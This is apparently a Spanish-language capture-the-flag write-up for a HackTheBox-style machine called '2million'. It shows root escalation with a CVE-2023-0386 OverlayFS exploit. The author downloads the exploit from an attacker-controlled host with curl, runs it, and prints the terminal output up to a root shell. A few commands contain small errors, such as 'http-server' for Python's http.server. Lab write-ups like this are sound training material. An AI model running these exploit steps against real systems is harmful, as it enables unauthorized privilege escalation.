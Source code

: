 Con el tar, lo trasnfiero a la maquina victima con un servidor de python `python3 -m http-server 80`
```bash
$: curl http://10.10.15.20/2023.tar.gz > 2023.tar.gz
$: tar -zcvf 2023.tar.gz CVE-2023-0386
CVE-2023-0386/
CVE-2023-0386/Makefile
...
admin@2million:~$ cd CVE-2023-0386
```
Seguimos las instrucciones y escalamos a root.
```bash
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
fuse: mountpoint is not empty
fuse: if you are sure this is safe, use the 'nonempty' mount option
fuse_mount: File exists

admin@2million:~/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jan  8 19:02 .
drwxr-xr-x 6 root   root     4096 Jan  8 19:02 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386# sudo whoami
root
```